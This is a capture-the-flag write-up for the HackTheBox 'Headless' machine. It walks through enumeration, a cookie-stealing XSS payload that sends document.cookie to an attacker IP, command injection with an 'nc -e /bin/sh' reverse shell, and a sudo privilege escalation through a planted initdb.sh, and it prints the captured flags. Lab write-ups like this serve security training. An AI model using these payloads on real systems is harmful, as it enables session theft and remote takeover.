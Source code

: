 ```yaml
---
layout: post
title: "Headless"
description: "Headless is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 5000 10.129.53.93
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-23 15:13 EDT
Nmap scan report for 10.129.53.93
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:13:59 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|_    box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 22.01 seconds                                
```


### Enumerate HTTP (Port 5000)

![Pasted image 20240715111852.png](/images/Pasted image 20240715111852.png){: .normal }


Found subdirectory using Dirsearch.
```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u <http://10.129.53.93:5000>
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.53.93_5000/_24-03-23_15-20-17.txt

Target: <http://10.129.53.93:5000/>

[15:20:17] Starting:                                                                                                                                         
[15:24:37] 401 -  317B  - /dashboard                                        
[15:27:25] 200 -    2KB - /support                                           
   
Task Completed 
```

Cookie value:
```bash
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
# Base64 decoded --> "user".uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Using an XSS payload in the contact form.
![Pasted image 20240715111838.png](/images/Pasted image 20240715111838.png){: .normal }


Authorized cookie found using XSS in the user agent.
```bash
# Save request in burp (set user agent to FUZZ)

ffuf -ic -c -of csv  -request-proto http -request support.req -w xss.txt
# Payload: <img src=x onerror=fetch('<http://ip/'+document.cookie>);>
```

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                 
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.185.190 - - [24/Mar/2024 03:01:30] code 404, message File not found
10.129.185.190 - - [24/Mar/2024 03:01:30] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

We now have access to the dashboard.
![Pasted image 20240715111831.png](/images/Pasted image 20240715111831.png){: .normal }


Command injection is possible when we intercept the request.
![Pasted image 20240715111827.png](/images/Pasted image 20240715111827.png){: .normal }


Reverse shell payload:
```bash
nc -e /bin/sh 10.10.14.26 443
```

Shell as dvir.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 40440
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

User flag: `93952774a10ce25343527204aab9f377`
```bash
cat user.txt 
93952774a10ce25343527204aab9f377
```


## Privilege Escalation

Sudo -l output:
```bash
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Looks like the syscheck binary executes initdb.sh.
```bash
strings /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
exit 0
```

Create the initdb.sh script.
```bash
touch initdb.sh
chmod +x initdb.sh
echo "nc -e /bin/sh 10.10.14.26 443" > initdb.sh 
```

Now we can execute the syscheck binary with sudo.
```bash
sudo syscheck
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 44638
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `62bd5afddfd8de3d2f63a9163da53f45`
```bash
cat root.txt
62bd5afddfd8de3d2f63a9163da53f45
```